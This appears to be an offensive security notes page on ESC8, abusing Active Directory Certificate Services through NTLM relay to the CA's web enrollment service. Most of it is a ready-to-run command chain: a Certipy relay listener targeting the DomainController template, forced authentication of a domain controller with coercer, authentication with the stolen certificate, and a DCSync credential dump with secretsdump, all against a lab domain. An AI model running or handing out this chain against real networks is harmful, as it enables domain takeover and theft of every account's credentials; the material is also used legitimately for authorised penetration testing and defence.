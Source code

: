 ```yaml
---
description: ADCS abuse with NTLM Relay
---
```


# ESC8

NTLM Relay is a MitM attack where an attacker pretends to be the server for the client and vice versa. ADCS support enrollment over HTTP which allows users to request certificates over HTTP.

We can relay HTTP NTLM authentication to a certificate enrollment interface. CA's web enrollment service provides web pages to interact with CA. Usually at `http://<servername>/certsrv/certfnsh.asp`. These endpoints can be abused using authenicated sessions through NTLM Relay.

### <mark style="color:yellow;">ESC8 Abuse</mark>

Start listening with Certipy

```sh
sudo certipy relay -target 172.16.19.5 -template DomainController
```

Then coerce using printerbug, petitpotam or coercer.&#x20;

```sh
coercer coerce -l 172.16.19.19 -t 172.16.19.3 -u blwasp -p 'Password123!' -d lab.local -v
```

Authenticate

```sh
certipy auth -pfx lab-dc.pfx
```

DCSync

```shell-session
KRB5CCNAME=lab-dc.ccache secretsdump.py -k -no-pass lab-dc.lab.local
```
